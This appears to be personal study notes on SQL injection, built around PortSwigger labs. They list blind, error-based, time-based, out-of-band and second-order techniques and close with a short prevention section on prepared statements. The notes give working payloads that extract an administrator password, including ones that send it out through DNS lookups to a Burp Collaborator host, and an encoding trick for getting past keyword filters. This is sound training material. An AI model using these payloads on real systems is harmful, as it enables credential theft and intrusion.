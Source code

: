 # SQL Injection

- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
- Find endpoints for an application where it is likely to interact with DB server such as login, register, forgot password, add record, etc.


## Blind SQL injection

- It occurs when HTTP response of vulnerable request do not contain details of any database errors.
- Attacks of UNION are ineffective as they rely on result of query passed.

Types

1. Conditional responses (TRUE / FALSE):
    - You can retrieve information by triggering different responses conditionally, depending on an injected condition.
        ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/6ca4ec03-3f3a-4f9c-a79a-fc92b4e46167)
         
         `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` -->
         This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is `a`.
  
  - List of payloads
    - To check vulnerable or not
        > TrackingId=xyz' AND '1'='1

    - To check if table name exists
        > TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

    - To check particular username exist in table
        > TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

    - To check length of password (Increase value of `1` with each iteration)
        > TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

    - To check password character wise (Increase value of `1` first one with each iteration)
        > TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

2. Error-based SQL Injection
  - Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts
  - When injecting different boolean conditions makes no difference to the application's responses.
  - Modify the query so that it causes a database error only if the condition is true.
  - Purpose cause error, so if condition is false it will return error for e.g. Divide by zero
  - Payload
      > xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

    ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/72b6a743-553b-4ff2-bbe8-52f233a2fcc1)

    - Link: https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based#

4. Time-based SQL Injection
    - It is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false.

   - Payload
       > '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

    - The application takes 10 seconds to respond
       > TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

    - The application responds immediately with no time delay
       > TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

5. Out-of-band (OAST) SQLi
    - The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.
    - Exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.
    - A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service)
  
    - Payload combine with XXE --> Will cause DNS lookuo to Burp Collaborator
       > TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

    - Payload --> input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:
      > '; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
      ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/db8f381c-eff8-4fe6-976a-09009f2c430b)

    - Payload for finding password of administrator --> it will be appended as subdomain of burp collaborator
      > TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

## SQL injection in different contexts

- Test other formats for SQLi like JSON or XML.
- Bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT:
  > &#x53;ELECT * FROM information_schema.tables

## Second-order SQL injection

- First-order SQL injection occurs when application processes user input from HTTP request and injects the input into SQL query in an unsafe way.
- Second-order SQL injection occurs when application does not process input from HTTP request immediately rather it stores if for future use. Later, when retreving the stored data it processes and inject input into SQL query in an unsafe way.

## Prevention

1. Parameterized queries / prepared statements.
       - Normally, when SQL program arrives at the SQL server, the server will parse, compile and optimize it. Finally, the server will execute the program and return results of execution
   ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/bb7f26c4-4cf3-4b53-8da1-d11903948b27)

    - Prepared Statement work by making sure that user supplied data does not alter you SQL query's logic. These SQL statements are sent to and compiled by the SQL server before any user supplied parameters into the query. User input is added to statement right before execution. Anything that wasn't in the original statement will be treated as string data, not the executable SQL code.
      ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/d06ebb70-3ebf-4965-8ae8-b239007de2b7)
